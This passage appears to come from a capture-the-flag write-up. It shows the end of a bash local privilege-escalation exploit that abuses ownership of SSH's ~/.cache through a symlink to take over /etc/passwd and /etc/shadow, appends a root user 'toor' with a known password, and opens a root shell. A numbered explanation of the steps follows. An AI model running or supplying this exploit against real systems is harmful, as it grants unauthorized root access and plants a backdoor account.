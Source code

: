 ```bash
    echo "[*] SSH key set up"
}
key_remove() {
    rm -f "$KEY"
    restore ~/.ssh/authorized_keys
    echo "[*] SSH key removed"
}
own() {
    [ -e ~/.cache ] && rm -rf ~/.cache
    ln -s "$1" ~/.cache || return 1
    echo "[*] spawn ssh"
    ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
    [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
    echo "[+] owned: $1"
}
bye() {
    key_remove
    exit 1
}
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
```

The vulnerability exploited here is how permissions of files changes depending on who is spawning the SSH process. For this machine, if we were to SSH in as `www-data`, a `.cache` file would be created that is owned by `www-data`. Afterwards, we can simply delete this file and replace it with a symlink to another file.&#x20;

A subsequent login would cause the permissions of the symlinked file to be owned by `www-data`.&#x20;

Here's what the script is doing:

1. Create a new SSH key and move it to the `~` directory, which is at the `/var/www` directory for `www-data`.
2. Make a backup of the key (which failed actually).
3. Next, spawn an SSH process as `www-data`. When this is triggered, a `.cache` file is generated in `/var/www` owned by `www-data`.&#x20;
4. The `.cache` file is then deleted. A symlink called `.cache`is created to another file (for this script it is `/etc/passwd` first).&#x20;
5. A subsequent SSH process again then forces the `/etc/passwd` permissions to change and be owned by `www-data`.&#x20;
6. Afterwards, the script appends another root user with a known password to generate the root shell.&#x20;
